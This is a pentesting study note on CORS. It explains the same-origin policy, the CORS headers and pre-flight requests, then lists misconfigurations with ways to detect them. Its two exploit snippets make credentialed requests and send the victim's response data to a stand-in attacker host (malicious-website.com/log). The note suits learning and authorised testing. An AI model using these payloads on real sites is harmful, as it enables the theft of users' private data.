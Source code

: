 # CORS

<details>

<summary>Same-origin policy (SOP)</summary>

* The same-origin policy restricts scripts on one origin from accessing data from another origin.

<!---->

* An origin consists of a URI scheme, domain and port number.

<!---->

* The SOP prevents a malicious website from running JS in a browser to read data from a third-party website. (There are various exceptions)

<!---->

* The SOP allows embedding of images via the `<img>` `<video>` `<script>`.
  * However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.

</details>

<details>

<summary>Cross-origin resource sharing</summary>

The cross-origin resource sharing specification provides controlled relaxation of the same-origin policy. The CORS specification identifies a collection of protocol headers

* `Origin` header added by the browser.
  * ```
    Origin : https://normal-website.com
    ```
* `Access-Control-Allow-Origin` returned by a server when a website requests a cross-domain resource.
  * ```http
    Access-Control-Allow-Origin: https://normal-website.com
    ```

This means that the browser will allow code running on normal-website.com to access the response because the origins match.

Note: `Access-Control-Allow-Origin` is returned only if the whitelisted values or `*` or `null` matched the Origin.



**Access-Control-Allow-Origin: \***

The use of the wildcard `*` is restricted in the specification as you cannot combine the wildcard with the cross-origin transfer of credentials (authentication, cookies or client-side certificates). This following response is not permitted

```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```



**Access-Control-Allow-Origin: null**

Specifies that only origins with a `null` origin are allowed to access the resource. Browsers might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file` protocol.
* Sandboxed cross-origin requests.

</details>

<details>

<summary>Pre-flight checks</summary>

Under certain circumstances, when a cross-domain request includes a non-standard HTTP method or headers, the cross-origin request is preceded by a request using the OPTIONS method.

For example, this is a pre-flight request that is seeking to use the PUT method together with a custom request header called Special-Request-Header

```http
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

```http
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

* This response sets out the allowed methods (PUT, POST and OPTIONS) and permitted request headers (Special-Request-Header). In this particular case the cross-domain server also allows the sending of credentials (authentication, cookies or client-side certificates), and the Access-Control-Max-Age header defines a maximum timeframe for caching the pre-flight response for reuse
* More info about preflight: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#preflighted\_requests

</details>

## <mark style="color:yellow;">Vulnerabilities</mark>

**Server-generated ACAO header from client-specified Origin header**

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Detection&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

Exploit

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
</script>
```

**Errors parsing Origin headers**

* Some apps enable access from various sources through a whitelist of permitted origins
* Suppose `normal-website.com`
* Use as origin: `hackersnormal-website.com` or `normal-website.com.evil-user.net`
* Note: you need to know the whitelisted origins..

**Whitelisted null origin value**

Detection

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

Exploit

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

#### Exploiting XSS via CORS trust relationships <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an xss on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

